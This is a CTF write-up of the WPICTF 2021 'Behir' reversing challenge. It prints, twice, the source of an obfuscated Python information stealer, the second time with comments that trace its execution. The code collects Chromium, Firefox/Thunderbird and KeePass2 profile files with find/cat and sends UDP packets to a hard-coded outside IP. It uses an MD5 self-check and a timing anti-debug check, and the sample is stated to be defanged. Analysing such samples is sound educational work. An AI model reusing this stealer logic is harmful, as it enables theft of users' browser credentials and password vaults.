 ```yaml
---
layout: post
title:  "Behir - Reverse"
date:   2021-04-27 12:28:05 +0100
categories: writeups
---
```


```
Challenge: Behir
Author: Shotokhan
Description: Reversing obfuscated Python malware
CTF: WPICTF 2021
Category: Reverse
```


# Task
The information stealer Behir.py ate everything - including the flag. It should be somewhere in the malware. Be careful though, it's still a dangerous monster.

Abjuri5t (John F)
*Important note: In its default state, the script is "defanged" and shouldn't exfiltrate any stolen information. However, this can easily be changed and you may accidentally harm your computer while solving the challenge. PLEASE make sure that you run this malware in a virtual machine/isolated lab/sandboxed enviornment. The sample file is stored in an encrypted zip with the password "infected". I am not responsible if your sensitive information is stolen.


# Unzipped malware code
Let's unzip the encrypted zip file and look at Behir.py:
{% highlight python %}
tressym = "fa86075165f2630ff80397bf98323716"
lightning = [".chrom"]
adventure = '/'

import os
import subprocess
import socket
import hashlib
import time


def main():
    ranger = int(time.time())
    if(str(hashlib.md5(open(__file__, "rb").read()[43:]).hexdigest()) == tressym):
        ether = -1
        crawlingclaw = "who" + "ima"[::ether]
        ether = ether + 1
        owlbear = os.popen(crawlingclaw).read().split('\n')[ether]
        lightning[ether] = lightning[ether] + "iu" + lightning[ether][ether -1] + adventure
        pi = "PI.3.14159265"
        yeti = "pass"
        ether = ether + 1
        ancestral = makesoul(yeti) 
        arcane = "_info.log"
        ancestral[ether] = chr(123) + 'n' + makesoul(yeti)[ether].split('n')[ether]
        gold = "stolen" + arcane
        ancestral[ether] = 'w' + pi.split('.')[ether - ether] + ancestral[ether]
        gold = gold.replace('_', '-')
        for torrent in ancestral:
            lightning.append(torrent)
        ether = ether - ether
        lightning.append(".kee" + yeti + '2' + adventure)
        for fire in range(len(lightning)):
            lightning[fire] = lightning[fire].replace('_', '-')
            lightning[fire] = lightning[fire].replace('w', 'W')
        bludgeoning = int(time.time())
        if(bludgeoning - ranger <= 2):
            evocation = len(lightning)
            for castle in range(evocation): #Ya the ".keepass2/" one is ambitious... but I have seen malware do this
                devour(lightning[castle], owlbear, gold)
            for aboleth in range(evocation):
                lightning.pop(ether)
            circle("WPI")


def devour(poison, gods, tome):
    ether = -1
    if(poison[ether] == adventure):
        cat = "cat"
        buckler = adventure + "home" + adventure + gods + adventure + poison
        lightning.append(bytes(buckler, "ascii"))
        acid = "find " + buckler + " -type f -exec " + cat + " {} + > " + tome
        os.system(acid)
        spell = open(tome, "rb")
        ate = spell.read()
        spell.close()
        lightning.append(ate)


def circle(viciousMockery):
    ether = 0
    roc = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    while(ether < 1337):
        ether = ether + 1
    for elf in lightning:
        drow = bytes('0', "ascii") #I remove the data, but you REALLY should run this in a sandboxed environment
        roc.sendto(drow, ("158.58.184.213", ether)) #this is not a nice IP, be careful what you send here


def makesoul(orb):
    soul = []
    litch = soulMore(orb)
    soul.append(litch)
    soul.append(soul[0].lower())
    litch = swords()
    soul[0] = litch + "Ice" + "weasel"
    soul[0] = soul[0] + adventure
    soul[1] = soul[1] + chr(125)
    soul.append(litch + "Thunder" + "bird" + adventure)
    return soul


def soulMore(craft):
    ether = 0
    vampire = ""
    eldritch = ["auto", "fill", craft, "word"]
    eldritch[ether] = eldritch[ether] + eldritch[ether + 1]
    ether = ether + 1
    eldritch[ether] = eldritch[ether + ether] + eldritch[ether + ether + ether]
    eldritch[len(eldritch) - ether] = "NEVER"
    eldritch[len(eldritch) - 2] = "use"
    eldritch = eldritch[::-1]
    for martial in eldritch:
        vampire = vampire + '_'
        vampire = vampire + martial
    return vampire


def swords():
    ether = -1
    return chr(46) + lightning[ether + 1][4:6][::ether] + "zilla" + adventure



main()
{% endhighlight %}
It is an obfuscated Python "malware"; looks like it does data exfiltration, sending data to 158.58.184.213. Let's reverse it by doing static analysis.


# Writeup
At first, it checks for the integrity of itself, by computing the MD5 digest and checking it against a pre-computed one, so if you modify the file without modifying the digest, the malware won't "explode". <br>
At last, before preparing data to send and before sending data, it checks that the execution so far less took less than 2 seconds: it is a form of anti-debugging. <br>
In the middle, there are obfuscated lines of code and obfuscated functions: the malware reads data from different common folders containing sensitive user data, using system commands. <br>
The idea is that it uses the first obfuscated part to prepare the names of the targets, and the second part (after the "anti-debug check") to execute commands to prepare the data that will be sent. <br>
At this point, the best thing is to look again at the Python file, but with comments: to solve the challenge, we followed the execution flow one instruction at a time, by hand, writing the results of instructions and the values of variables in comments. <br>
{% highlight python %}
tressym = "fa86075165f2630ff80397bf98323716"
lightning = [".chrom"]
adventure = '/'

import os
import subprocess
import socket
import hashlib
import time


def main():
    ranger = int(time.time())
    if(str(hashlib.md5(open(__file__, "rb").read()[43:]).hexdigest()) == tressym):	# if you change it, you have to update md5 tressym
        ether = -1
        crawlingclaw = "who" + "ima"[::ether]	# whoami
        ether = ether + 1
        owlbear = os.popen(crawlingclaw).read().split('\n')[ether]	# execute whoami and save the result in owlbear
        lightning[ether] = lightning[ether] + "iu" + lightning[ether][ether -1] + adventure	# .chromium/ in lightning[0]
        pi = "PI.3.14159265"
        yeti = "pass"
        ether = ether + 1	# at this poit, ether is equal to 1
        ancestral = makesoul(yeti) 
        # ancestral: [".mozilla/Iceweasel/", "never_use_password_autofill}", ".mozilla/Thunderbird/"]
        arcane = "_info.log"
        ancestral[ether] = chr(123) + 'n' + makesoul(yeti)[ether].split('n')[ether]
        # ancestral[1]: "{never_use_password_autofill}"
        gold = "stolen" + arcane	# stolen_info.log
        ancestral[ether] = 'w' + pi.split('.')[ether - ether] + ancestral[ether]
        # ancestral[1]: wPI{never_use_password_autofill}
        gold = gold.replace('_', '-')	# stolen-info.log
        for torrent in ancestral:
            lightning.append(torrent)
        # lightning = [".chromium/", ".mozilla/Iceweasel/", "wPI{never_use_password_autofill}", ".mozilla/Thunderbird/"]
        ether = ether - ether	# 0, obviously
        lightning.append(".kee" + yeti + '2' + adventure)	# .keepass2/
        for fire in range(len(lightning)):
            lightning[fire] = lightning[fire].replace('_', '-')
            lightning[fire] = lightning[fire].replace('w', 'W')
	# lightning = ['.chromium/', '.mozilla/IceWeasel/', 'WPI{never-use-passWord-autofill}', '.mozilla/Thunderbird/', '.keepass2/']
        bludgeoning = int(time.time())
        if(bludgeoning - ranger <= 2):	# if the execution took less than 2 seconds
            evocation = len(lightning)	# 5
            for castle in range(evocation): #Ya the ".keepass2/" one is ambitious... but I have seen malware do this
                devour(lightning[castle], owlbear, gold)	# second and third parameter: <user> (result of whoami), stolen-info.log
            for aboleth in range(evocation):
                lightning.pop(ether)
            # at this point, lightning is much like before, but strings are in byte format, like b'.chromium/' and so on, and between a folder name and another
            # there is the CONTENT in byte format read from the previously specified folder
            circle("WPI")	# input parameter is unused; this function performs data exfiltration, by sending 'lightning' list


def devour(poison, gods, tome):
    ether = -1
    if(poison[ether] == adventure):	# true for all elements of lightning that are in the list before 'devour' function calls
        cat = "cat"
        buckler = adventure + "home" + adventure + gods + adventure + poison	# /home/<user>/lightning[i] , for example /home/mike/.chromium/
        lightning.append(bytes(buckler, "ascii"))	# for example b'.chromium/'
        acid = "find " + buckler + " -type f -exec " + cat + " {} + > " + tome	# find /home/<user>/lightning[i] -type -f -exec cat {} + > stolen-info.log
        os.system(acid)	# make a query and if the file is there, read its contents and copy them to stolen-info.log
        spell = open(tome, "rb")	# read result from stolen-info.log
        ate = spell.read()
        spell.close()
        lightning.append(ate)		# append sensitive data read to lightning


def circle(viciousMockery):
    ether = 0
    roc = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    while(ether < 1337):
        ether = ether + 1
    for elf in lightning:
        # it is implemented like a stub, because like you can see, 'elf' variable is not sent
        drow = bytes('0', "ascii") #I remove the data, but you REALLY should run this in a sandboxed environment
        roc.sendto(drow, ("158.58.184.213", ether)) #this is not a nice IP, be careful what you send here


def makesoul(orb):
    soul = []
    litch = soulMore(orb) # f"NEVER_use_{orb}word_autofill"
    soul.append(litch)
    soul.append(soul[0].lower())	# at this point, soul is a list of 2 elements; the second is f"never_use_{orb.lower()}word_autofill"
    litch = swords()	# .mozilla/
    soul[0] = litch + "Ice" + "weasel" # f".mozilla/Iceweasel"
    soul[0] = soul[0] + adventure # f".mozilla/Iceweasel/"
    soul[1] = soul[1] + chr(125) # f"never_use_{orb.lower()}word_autofill}"
    soul.append(litch + "Thunder" + "bird" + adventure) # element added: f".mozilla/Thunderbird/"
    return soul		# [".mozilla/Iceweasel/", f"never_use_{orb.lower()}word_autofill}", ".mozilla/Thunderbird/"]


def soulMore(craft):
    ether = 0
    vampire = ""
    eldritch = ["auto", "fill", craft, "word"]
    eldritch[ether] = eldritch[ether] + eldritch[ether + 1]	# "autofill" at index 0
    ether = ether + 1
    eldritch[ether] = eldritch[ether + ether] + eldritch[ether + ether + ether]		# craft + "word" at index 1 
    eldritch[len(eldritch) - ether] = "NEVER"	# "NEVER" at index 3
    eldritch[len(eldritch) - 2] = "use"		# "use" at index 2
    eldritch = eldritch[::-1]	# at this point eldritch is: ["NEVER", "use", craft + "word", "autofill"]
    for martial in eldritch:
        vampire = vampire + '_'
        vampire = vampire + martial
    return vampire	# f"NEVER_use_{craft}word_autofill"


def swords():
    ether = -1
    return chr(46) + lightning[ether + 1][4:6][::ether] + "zilla" + adventure	# .mozilla/



main()
{% endhighlight %}
After a few failed attempts with the CTF's website, we found out what was the flag:
```
WPI{never-use-password-autofill}
```
